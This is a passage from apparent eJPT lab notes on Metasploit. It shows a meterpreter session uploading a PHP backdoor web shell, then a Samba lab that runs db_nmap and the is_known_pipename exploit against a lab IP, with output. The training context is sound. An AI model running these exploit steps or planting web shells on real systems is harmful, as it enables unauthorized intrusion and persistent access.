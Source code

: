 ```bash
meterpreter > upload /usr/share/webshells/php/php-backdoor.php
    [*] uploading  : /usr/share/webshells/php/php-backdoor.php -> php-backdoor.php
    [*] Uploaded -1.00 B of 2.73 KiB (-0.04%): /usr/share/webshells/php/php-backdoor.php -> php-backdoor.php
    [*] uploaded   : /usr/share/webshells/php/php-backdoor.php -> php-backdoor.php
```

## 🔬 Lab 2 <a href="#lab-2" id="lab-2"></a>

> 🔬 Same [Samba SMB Exploitation lab](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/samba-msf-exp)
>
> * Target IP: `192.151.144.3`
> * Metasploit **`post/multi/manage/shell_to_meterpreter`** module

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.151.144.3
setg RHOST 192.151.144.3
workspace -a Upgrade_Shells
```

* Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.151.144.3
```

```bash
[*] Nmap: PORT    STATE SERVICE     VERSION
[*] Nmap: 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: MAC Address: 02:42:C0:97:90:03 (Unknown)
```

```bash
msf5 > search type:exploit  name:samba
msf5 > use exploit/linux/samba/is_known_pipename
msf5 > options
msf5 > run
```
